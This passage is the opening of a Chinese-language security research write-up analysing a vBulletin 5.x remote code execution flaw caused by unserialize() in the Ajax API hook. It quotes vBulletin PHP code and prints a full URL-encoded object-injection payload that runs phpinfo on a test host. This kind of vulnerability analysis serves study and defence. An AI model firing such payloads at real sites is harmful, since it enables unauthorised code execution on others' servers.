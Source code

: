 # unserialize() 实战之 vBulletin 5.x.x 远程代码执行

[ RickGray](/author/RickGray) · 2015/11/10 12:04

**Author: RickGray (知道创宇404安全实验室)**

近日，vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用`unserialize()` 对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP中反序列化漏洞的问题可以参考 OWASP 的[《PHP ObjectInjection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用 [原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq) 提供的Payload 可以直接在受影响的站点上执行 `phpinfo(1)`：

![](http://static.wooyun.org//drops/20151109/2015110915520980114110.png)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的Payload，通过下面的分析后就能够明白。

# 0x00 反序列化触发点跟踪

* * *

虽然此次漏洞 `unserialize()`函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

    
    
    http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D
    

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将 `ajax/api/hook/decodeArguments` 作为路由参数`$_REQUEST['routestring']` 传递给地址路由处理过程。因其符合 `ajax/api/[controller]/[method]` 的Ajax API 请求路由格式，会再调用 `vB5_Frontend_ApplicationLight` 实例中的 `handleAjaxApi()`函数来进行相应的模块加载并调用处理函数：

    
    
    #!php
    protected function handleAjaxApi()
    {
        $routeInfo = explode('/', $_REQUEST['routestring']);    
    
        if (count($routeInfo) < 4)
        {
            throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
        }
        $params = array_merge($_POST, $_GET);
        $this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
    }
    

请求的 `ajax/api/hook/decodeArguments` 会实例化 `hook` 类然后调用 `decodeArguments()`函数，原文中所提及的触发点就在此处：

    
    
    #!php
    public function decodeArguments($arguments)
    {
        if ($args = @unserialize($arguments))
        {
            $result = '';
    